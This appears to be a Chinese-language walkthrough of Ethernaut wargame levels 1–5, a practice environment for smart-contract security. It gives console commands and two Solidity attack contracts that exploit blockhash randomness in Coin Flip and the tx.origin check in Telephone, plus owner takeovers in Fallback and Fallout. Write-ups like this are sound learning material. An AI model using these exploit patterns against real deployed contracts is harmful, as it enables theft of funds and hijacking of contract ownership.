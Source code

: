 # 1 Hello Ethernaut

可以直接在控制台里输入contrac查看ABI的methods

await contract.password() 查看密码
'ethernaut0'
await contract.authenticate('ethernaut0') 输入密码
submit instance 

# 2 Fallback

阅读智能合约代码 receive() 可以修改owner, 修改owner后call withdraw()即可

2.1. await contract.contribute({value: 1})
call 完后查看是否有balance，就可以send了
2.2. await contract.getContribution()
1
2.3. 转 1 ether 
await contract.send(1)
2.4. await contract.owner()
'0xe5107dee9CcC8054210FF6129cE15Eaa5bbcB1c0'
# 最后一步，把钱取出来
2.5. await contract.withdraw()
submit instance 

# 3 Fallout

错误的构造函数拼写(1)

```
    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }
```

3.1. await contract.Fal1out()
3.2. await contract.owner()
'0xe5107dee9CcC8054210FF6129cE15Eaa5bbcB1c0'
submit instance

# 4 Coin Flip

错误的使用blocknumber作为随机数

```
    function flip(bool _guess) public {
        uint blockValue = uint(blockhash(block.number-1));
        uint coinFlip = blockValue / 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        bool side = coinFlip == 1 ? true : false;
        if (side == _guess) {
            totalWins[msg.sender]++;
        }
    }
```

编写攻击合约

```
pragma solidity ^0.8.0;

interface IChallenge {
    function flip(bool _guess) external payable returns (bool);
}

contract CoinFlipAttack {
    IChallenge challenge;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address challengeAddress) {
        challenge = IChallenge(challengeAddress);
    }

    function flip() public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        challenge.flip(side);
    }
}
```
部署合约（challenge address为目标合约）, 然后call 10次flip()即可
await contract.consecutiveWins()
10

submit instance

# 5 Telephone

```
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```

其中

tx.origin 是最初发起交易的地址
msg.sender 是当前调用者的地址
因此通过中间合约调用即可修改owner

编写攻击合约

```
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address _owner) external;
}

contract Attack {
    address public targetContract;

    constructor(address _targetContract) {
        targetContract = _targetContract;
    }

    function attackChangeOwner(address _newOwner) public {
        Telephone(targetContract).changeOwner(_newOwner);
    }
}
```
call attackChangeOwner("你的地址")即可
await contract.owner()
'你的地址'
submit instance



